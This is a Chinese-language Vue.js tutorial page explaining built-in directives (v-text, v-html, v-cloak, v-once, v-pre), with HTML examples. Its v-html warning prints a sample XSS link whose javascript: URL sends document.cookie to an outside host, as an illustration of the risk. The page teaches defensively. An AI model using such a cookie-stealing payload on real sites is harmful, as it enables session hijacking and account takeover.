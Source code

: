 # vue其他内置指令

vue中存在两种类型指令，一个叫“内置指令”,本质上就是vue官方提供给我们的指令，例如`v=bind`,`v-model`等等。还有一种指令叫做“自定义指令”，这种指令是用户自己自定义出来的，vue官方没有提供。这一节，一些常见的内置指令梳理一下。

基于前面文档，我们已经知道了：

   1. `v-bind :` 单向绑定解析表达式, 可简写为 `:xxx`

   2. `v-model : `双向数据绑定

   3.  `  v-for: `遍历数组/对象/字符串

   4.  `  v-on: `绑定事件监听, 可简写为`@`

   5.  ` v-if: `条件渲染（动态控制节点是否存存在）

   6. `v-else: `条件渲染（动态控制节点是否存存在）

   7. `v-show:` 条件渲染 (动态控制节点是否展示)

      

  ### v-text指令

作用：向其所在的节点中渲染文本内容。

与插值语法的区别：

1. v-text会替换掉节点中的内容，而差值语法则不会
2. v-text中会把其对应变量的值完全当成一个字符串，即使里面有标签属性，也不会解析。

例如：

```html {4,5}
			...
		<div id="root">
			<div>你好，{{name}}</div>
			<!-- 以下div会完全被替换成 “spdb”，“你好”不会被展示 -->
			<div v-text="name">你好，</div>
			<!-- 以下div会完全被替换成 “<h3>你好啊！</h3>”，<h3>标签不会被解析 -->
			<div v-text="str">
		 </div>
			...
			new Vue({
			el:'#root',
			data:{
				name:'spdb',
				str:'<h3>你好啊！</h3>'
			}
		})
```

###  v-html指令

作用：向指定节点中渲染包含html结构的内容。

与插值语法的区别：

1. `v-html`会替换掉节点中所有的内容，{{xx}}则不会。
2. `v-html`可以识别html结构。

与`v-text`的区别:`v-html`会解析变量中包含的html结构内容。

例如：

```html
<div id="root">
			<div>你好，{{name}}</div>
			<!--str:'<h3>你好啊！</h3>'-->
			<div v-html="str"></div>
		</div>
```

此时h3标签会被解析。

::: danger

请注意：`v-html`指令有**安全性**问题！！！！！！！

一般少用，在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！！

Q：为什么是危险的？

A:  这个跟cookie本身的安全性有关。cookie是一个网站用来用户验证的重要手段，当有人窃取到你的cookie时，就可以伪造你的身份，以你身份来登陆相关网站而无需验证。

Q:如何伪造cookie？

A:恰恰就是因为v-html会解析变量中所有的标签。在js中，是可以通过document.cookie来得到当前网站的所有cookie数据的，想想以下，如果我是黑客，当你点击了如下代码生成的内容时：

```html
<a href=javascript:location.href="http://www.mantu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>
```

此时就会把当前网站你所有的，可以不通过http请求拿到的cookie通通拿到，并上传到mantu.com，是不是觉得很可怕？

:::

附：关于cookie的详细解释，可观看如下视频：

<iframeComp ihtml="https://upos-sz-mirrorhw.bilivideo.com/upgcxcode/68/32/235543268/235543268-1-208.mp4?e=ig8euxZM2rNcNbRVhwdVhwdlhWdVhwdVhoNvNC8BqJIzNbfq9rVEuxTEnE8L5F6VnEsSTx0vkX8fqJeYTj_lta53NCM=&uipk=5&nbs=1&deadline=1636885770&gen=playurlv2&os=hwbv&oi=17808763&trid=761a62f8e1e041928630da1ebf81c570T&platform=html5&upsig=4a8a3388e8e66662d09e2036613c436c&uparams=e,uipk,nbs,deadline,gen,os,oi,trid,platform&mid=0&bvc=vod&nettype=0&bw=69507&orderid=0,1&logo=80000000"></iframeComp>

### v-cloak指令

               1. 本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
               2. 使用css配合v-cloak可以解决网速慢时页面展示出差值语法慢的问题。

### v-once指令

   1. v-once所在节点在初次动态渲染后，就视为静态内容了

   2. 以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能。

      例如：

      ```html
      	   <div id="root">
                 <!--本行代码在第一次动态渲染之后不会再次渲染，会被视为静态内容。故其值永远为n的初始值-->
      			<h2 v-once>初始化的n值是:{{n}}</h2>
                 <!--本行代码可以后续正常渲染-->
      			<h2>当前的n值是:{{n}}</h2>
      			<button @click="n++">点我n+1</button>
      		</div>
      ```

       ### v-pre指令

1. 跳过其所在节点的编译过程。

2. 可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译。

   例如：

   ```html
   		<div id="root">
               <!--本行代码没有使用vue中渲染的任何值，所以可以使用v-pre指令跳过该节点的编译-->
   			<h2 v-pre>Vue其实很简单</h2>
               <!--本行代码使用vue中渲染的值，所以不会使用v-pre,如果也使用了v-pre,那么该行也会被跳过，差值语法将显示为"{{n}}"，而不是n的值-->
   			<h2 >当前的n值是:{{n}}</h2>
   			<button @click="n++">点我n+1</button>
   		</div>
   ```

   

​         

​            

